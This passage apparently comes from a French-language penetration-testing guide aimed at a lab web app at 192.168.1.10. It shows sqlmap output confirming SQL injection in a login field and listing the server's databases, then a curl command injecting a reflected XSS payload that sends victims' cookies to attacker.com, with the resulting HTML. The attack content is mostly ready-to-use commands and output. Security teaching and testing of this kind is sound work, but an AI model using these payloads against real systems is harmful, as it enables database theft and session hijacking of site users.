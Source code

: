 ```
[18:40:04] [INFO] testing 'MySQL > 5.0.11 stacked queries (comment)'
[18:40:05] [INFO] POST parameter 'username' appears to be 'MySQL > 5.0.11 stacked queries (comment)' injectable 
[18:40:05] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[18:40:15] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
[18:40:15] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[18:40:16] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:40:17] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:40:17] [INFO] target URL appears to have 3 columns in query
[18:40:18] [INFO] POST parameter 'username' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
[18:40:18] [INFO] the back-end DBMS is MySQL
[18:40:18] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] webapp

[18:40:19] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.1.10'

[*] ending @ 18:40:19 /2025-04-02/
```

**Analyse :** Cette commande utilise SQLMap pour tester la présence d'injections SQL dans un formulaire de connexion. Les résultats montrent que le paramètre 'username' est vulnérable à plusieurs types d'injections SQL, et l'outil a réussi à extraire les noms des bases de données disponibles. Cette vulnérabilité pourrait permettre à un attaquant d'accéder à des données sensibles ou de contourner l'authentification.

**Commande pour exploiter une faille XSS :**
```bash
curl -s -G "http://192.168.1.10/search.php" --data-urlencode "q=<script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>"
```

**Sortie typique :**
```html
<!DOCTYPE html>
<html>
<head>
    <title>Search Results</title>
    <link rel="stylesheet" href="/css/style.css">
</head>
<body>
    <h1>Search Results for: <script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script></h1>
    <div class="results">
        <p>No results found for your search.</p>
    </div>
    <div class="footer">
        <p>&copy; 2025 Example Inc. All rights reserved.</p>
    </div>
</body>
</html>
```
